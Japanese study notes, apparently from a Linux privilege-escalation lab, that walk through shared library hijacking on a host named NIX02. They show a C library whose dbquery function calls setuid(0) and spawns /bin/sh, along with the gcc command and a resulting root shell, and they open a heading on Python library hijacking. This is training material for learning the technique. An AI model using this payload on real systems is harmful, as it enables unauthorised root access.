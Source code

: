 - この構成により、/developmentフォルダからライブラリをロードできる
	- このライブラリは、このファイルのエントリが最初にチェックされる
⇨ 悪意のあるライブラリを/developmentに配置することで設定ミスを悪用できる

ライブラリをコンパイルする前に、バイナリによって呼び出される関数名を特定する必要がある

既存のライブラリを開発フォルダにコピーする
```shell-session
cp /lib/x86_64-linux-gnu/libc.so.6 /development/libshared.so
```

バイナリを実行すると、dbqueryという名前の関数が見つからなかったというエラーが発生
```shell-session
./payroll 

./payroll: symbol lookup error: ./payroll: undefined symbol: dbquery
```

この関数を含む共有オブジェクトをコンパイルする
- dbquery関数は、ユーザーIDを0（root）に設定し、呼び出されると/bin/shを実行する
```c
nano /development/libshared.so

#include<stdio.h>
#include<stdlib.h>
#include<unistd.h>

void dbquery() {
    printf("Malicious library loaded\n");
    setuid(0);
    system("/bin/sh -p");
} 
```

コンパイル
```shell-session
gcc src.c -fPIC -shared -o /development/libshared.so
```

実行
```shell-session
htb-student@NIX02:~$ ./payroll 

***************Inlane Freight Employee Database***************

Malicious library loaded
# id
uid=0(root) gid=1000(mrb3n) groups=1000(mrb3n)
```


## Pythonライブラリハイジャック
ハイジャックに使用できる3つの基本的な脆弱性
- 不適切な書き込み権限
- ライブラリパス
- PYTHONPATH環境変数
